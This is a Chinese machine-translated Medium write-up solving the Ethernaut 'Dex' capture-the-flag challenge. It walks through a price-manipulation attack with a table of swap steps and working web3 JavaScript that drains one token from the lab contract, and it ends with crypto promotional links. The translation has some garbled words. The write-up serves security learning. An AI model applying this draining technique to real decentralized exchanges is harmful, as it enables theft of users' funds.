

# 以太解决方案:挑战 22 DEX

> 原文：<https://medium.com/coinmonks/ethernaut-solutions-challenge-22-dex-7cba25977cdf?source=collection_archive---------26----------------------->



以太骑士的挑战 22 要求我们攻击一个敏捷。DEX 具有两种代币的流动性，您可以利用这种流动性进行交易，其中一种代币相对于另一种代币的价格是流动性池中代币相对于彼此的比率。

挑战是耗尽至少一个令牌。这是通过价格操纵来实现的，即反复相互交换代币，直到其中一个代币耗尽。

```
price = amount * balance_to_token/balance_from_token**Token1**  **Token2   AmountToken1 AmountToken2**
100      100         10          10        
// Exchange all of Token1 for Token2  ------> (10 * 10/10) = 10  
110       90          0          20 
// Exchange all of Token2 for Token1  ------> (20 * 110/90) = 24
86        110        24           0   
// Exchange all of Token1 for Token2  ------> (24 * 110/86) = 30
110        80         0          30
// Exchange all of Token2 for Token1  ------> (30 * 110/80) = 41
69         110       41           0
// Exchange all of Token1 for Token2  ------> (41 * 110/69) = 65
110         45         0         65
// Exchange 45 tokens token2 for Token1 ----> (45 * 110/45) = 45
0           90        110        20
// We depleted Token1 - a pricing that maintains an invariant e.g constant product formulae would not allow one token to be depleted relative to another e.g x*y = k 
```

代码解决方案

```
const token1Ad = await contract.token1()
const token2Ad = await contract.token2()const approveAmount = 200 const data = web3.eth.abi.encodeFunctionCall({
    name: 'approve',
    type: 'function',
    inputs: [
            {
                "name": "_spender",
                "type": "address"
            },
            {
                "name": "_value",
                "type": "uint256"
            }
        ],
}, [contract.address,approveAmount])await web3.eth.sendTransaction({from:player,to:token1Ad,data: data})
await web3.eth.sendTransaction({from:player,to:token2Ad,data: data})// Do the 6 steps of swaps highlighted earlier
await contract.swap(token1Ad,token2Ad,10)
await contract.swap(token2Ad,token1Ad,20)
await contract.swap(token1Ad,token2Ad,24)
await contract.swap(token2Ad,token1Ad,30)
await contract.swap(token1Ad,token2Ad,41)
await contract.swap(token2Ad,token1Ad,45)
```

[**你是需要审核的项目吗？**](https://quillhash.typeform.com/RequestAudit?utm_source=Referal&utm_medium=Zed)

如果您的项目需要来自专注于安全的专家公司的智能合同安全审计服务，该公司对区块链充满热情，在评估、测试、咨询、尽职调查、pen 测试和审计项目方面拥有丰富的知识和声誉，涉及[以太坊、币安智能链、Polygon、Solana、EVM 兼容链等**请填写此处的表格。**](https://quillhash.typeform.com/RequestAudit?utm_source=Referal&utm_medium=Zed)

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [霍比审核](https://coincodecap.com/huobi-review) | [OKEx 保证金交易](https://coincodecap.com/okex-margin-trading) | [期货交易](https://coincodecap.com/futures-trading)
*   [网格交易机器人](https://coincodecap.com/grid-trading) | [Cryptohopper 审查](/coinmonks/cryptohopper-review-a388ff5bae88) | [Bexplus 审查](https://coincodecap.com/bexplus-review)
*   [7 个最佳零费用加密交易平台](https://coincodecap.com/zero-fee-crypto-exchanges)
*   [氹欞侊贸易评论](https://coincodecap.com/anny-trade-review) | [霍比融资融券交易](/coinmonks/huobi-margin-trading-b3b06cdc1519)
*   [去中心化交易所](https://coincodecap.com/what-are-decentralized-exchanges) | [比特恩斯 FIP](https://coincodecap.com/bitbns-fip) | [Pionex 评论](https://coincodecap.com/pionex-review-exchange-with-crypto-trading-bot)